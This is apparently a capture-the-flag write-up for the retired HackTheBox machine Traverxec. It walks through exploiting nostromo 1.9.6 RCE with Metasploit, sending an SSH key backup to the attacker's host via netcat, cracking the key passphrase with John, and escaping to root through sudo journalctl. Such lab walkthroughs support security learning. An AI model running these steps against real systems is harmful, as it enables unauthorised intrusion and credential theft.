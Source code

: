 ```yaml
---
title: "Traverxec"
collection: publications
permalink: /publication/traverxec
excerpt: 'This is a retired machine from HackTheBox'
date: 2023-08-03
venue: '08-03'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
#citation: 'Your Name, You. (2009). &quot;Paper Title Number 1.&quot; <i>Journal 1</i>. 1(1).'
---
```


![header](/images/traverxec_header.png)

**LINK:** [Traverxec](https://app.hackthebox.com/machines/Traverxec)

---

## Enumeration : 

Let's scan the target with nmap : 

```bash
nmap -sV -sC -A -p- 10.10.10.165
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-03 06:19 EDT
Nmap scan report for 10.10.10.165
Host is up (0.19s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa99a81668cd41ccf96c8401c759095c (RSA)
|   256 93dd1a23eed71f086b58470973a388cc (ECDSA)
|_  256 9dd6621e7afb8f5692e637f110db9bce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 5.1 (92%), Crestron XPanel control system (90%), Linux 3.16 (89%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

the scan reveals 2 open ports :
 * ``SSH`` running on port 22.
 * ``Nostromo`` web server running on port 80.


* Visiting ``http://10.10.10.165``, we see this web page.

![traverxec1](/images/traverxec1.png)

# Initial foothold : 

* I spent some time exploring the web page( source code, hidden directories...) but i didn't find anything interesting.

* One of the information that we found earlier was the version of ``nostromo`` which is ``1.9.6``, a quick research on google i found that this version of ``nostromo`` is vulnerable to ``remote code execution``.

>[Exploit-DB](https://www.exploit-db.com/exploits/47837)
>[Rapid7](https://www.rapid7.com/db/modules/exploit/multi/http/nostromo_code_exec/)

* I used ``metasploit`` to exploit this vulnerability, you can also use the python exploit that we found on ``Exploit-DB``.
* Let's fire up metasploit and choose the module related to this vulnerability

```bash
# msfconsole
msf > use exploit/multi/http/nostromo_code_exec
```

* Time to set some options before we exploit the server.

```bash
msf exploit(multi/http/nostromo_code_exec) > set target 1
msf exploit(multi/http/nostromo_code_exec) > set RHOSTS 10.10.10.165
msf exploit(multi/http/nostromo_code_exec) > set LHOST <your-ip-address>
msf exploit(multi/http/nostromo_code_exec) > exploit
```

* After few seconds, we got the shell as ``www-data`` user.

![traverexec2](/images/traverexec2.png)


# User Flag : 

* Next step is to escalate our shell to ``David's``.
* Visiting the ``/var/nostromo/conf`` directory, we see a file named ``nhttpd.conf`` contains the web server configuration.

```bash
[snip]
# HOMEDIRS [OPTIONAL]

homedirs /home
homedirs_public public_www
[snip]
```

* This configuration indicates that there might be a folder named ``public_www`` in the user's home directory, earlier i did notice that the david's home directory is not readable, however the ``public_www`` is readable.

* the ``public_www`` folder contains a subfolder named ``protected-file-area`` where i found a compressed file named ``backup-ssh-identity-files.tgz``.

![traverexec3](/images/traverexec3.png)

* There are a lot of ways to transfer the compressed file to our local machine, i used ``netcat`` for this purpose.

* on our local machine : 

```bash
# nc -lvp 1234 > backup-ssh-identity-files.tgz
```
* On the victim machine : 

```bash
# nc <your-ip-address> 1234 < backup-ssh-identity-files.tgz
```

* Since it's a tar archive, let's use ``tar`` command to extract it.

```bash
# tar -xvf backup-ssh-identity-files.tgz
```

![traverexec4](/images/traverexec4.png)

* I found the private key for ``SSH``, so maybe we can login as ``david``.

```bash
chmod 400 id_rsa
```

* Unfortunately the privte key is encrypted so we need the passphrase.

![traverexec5](/images/traverexec5.png)

* let's try to crack it with ``john``, first we will extract the hash from the private key.

```bash
# ssh2john id_rsa > id.hash 
```

* Time to crack it 

![traverexec6](/images/traverexec6.png)

* Now that we have the passphrase let's login.

![traverexec7](/images/traverexec7.png)


# Root Flag : 

* There is a folder called ``bin`` inside david's home directory, let's examine the ``server-stats.sh`` script.

![traverexec8](/images/traverexec8.png)

* We can see that the last command is executed using ``sudo``, after executing the script we can see that it displays the last 5 lines of the nostromo service logs using journalctl.

* A quick visit to [GTFOBins](https://gtfobins.github.io/gtfobins/journalctl/#sudo), i found out that ``journactl`` is exploitable because it invokes the default pager which is likely to be ``less``, the ``less`` command waits for user input after displaying the output so at that moment we can spawn a shell as sudo.

* before running the following command, you should resize the screen by maximizing it in order to spawn the shell : 

```bash
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
```

![traverexec9](/images/traverexec9.png)

* Enter the following command : 

```bash
!/bin/bash
```

![traverexec10](/images/traverexec10.png)













